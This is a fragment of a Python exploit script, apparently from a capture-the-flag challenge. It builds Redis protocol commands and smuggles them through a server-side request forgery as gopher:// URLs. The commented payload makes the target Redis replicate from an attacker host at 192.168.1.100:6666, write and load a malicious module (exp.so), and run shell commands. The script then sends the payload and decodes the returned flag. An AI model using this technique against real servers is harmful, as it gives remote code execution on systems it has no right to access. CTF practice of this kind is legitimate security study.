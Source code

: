 ```python=
    ]
    return cmd


def redis_format(arr):
    CRLF = "\r\n"
    redis_arr = arr.split(" ")
    cmd = ""
    cmd += "*"+str(len(redis_arr))
    for x in redis_arr:
        cmd += CRLF+"$"+str(len((x)))+CRLF+x
    cmd += CRLF
    return cmd


def generate_payload(input_command):

    command = input_command
    lhost = "192.168.1.100"
    lport = "6666"
    cmd = generate_rce(lhost,lport,command)

    protocol = "gopher://"

    ip = "0.0.0.0"
    port = "27134"

    payload = protocol+ip+":"+port+"/_"

    for x in cmd:
        payload += quote(redis_format(x).replace("^", " "))
    return payload


if __name__ == "__main__":
    url = "http://base64image.splitline.tw:8894/?page=result"
    #ssrf_payload = "normal ssrf payload"
    #ssrf_payload = "gopher://0.0.0.0:27134/_%2A3%0D%0A%247%0D%0ASLAVEOF%0D%0A%2413%0D%0A192.168.1.100%0D%0A%244%0D%0A6666%0D%0A%2A4%0D%0A%246%0D%0ACONFIG%0D%0A%243%0D%0ASET%0D%0A%243%0D%0Adir%0D%0A%245%0D%0A/tmp/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%246%0D%0Aexp.so%0D%0A%2A3%0D%0A%246%0D%0AMODULE%0D%0A%244%0D%0ALOAD%0D%0A%2411%0D%0A/tmp/exp.so%0D%0A%2A2%0D%0A%2411%0D%0Asystem.exec%0D%0A%242%0D%0Als%0D%0A%2A1%0D%0A%244%0D%0Aquit%0D%0A"
    cmd = "cat /flag_LgqcHFhUFlwEmZ6jZ1zMzqfasc8SjaSw"
    ssrf_payload = generate_payload(cmd)
    print(ssrf_payload)
    data = {"url": ssrf_payload}
    r = requests.post(url=url,data=data)
    s = r.text
    start = s.find('<img src="data:image/jpeg;base64,')+33
    if start != 32:
        end = s.find('"><hr>')
        base64_str = s[start:end]
        d = base64.b64decode(base64_str)
        print(d)
        print(d.decode('ascii'))
```
